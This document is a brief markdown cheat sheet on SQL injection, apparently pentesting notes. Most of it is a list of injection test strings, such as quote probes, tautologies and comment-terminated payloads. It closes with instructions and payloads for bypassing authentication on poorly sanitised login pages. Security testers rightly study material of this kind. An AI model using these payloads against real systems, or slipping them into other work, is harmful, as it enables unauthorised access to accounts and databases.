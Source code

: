 # SQL Injection

## Basic technique

Stick `'` in a parameter and see if it throws a database error (and note what kind).

Another simple test:

```
' or '1'='1
```

Other tests:

```
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

## Bypassing authentication

If you find a poorly-sanitized login page, you can attempt to log in without credentials by injecting the username parameter:

```
username' or 1=1;#
username'-
```
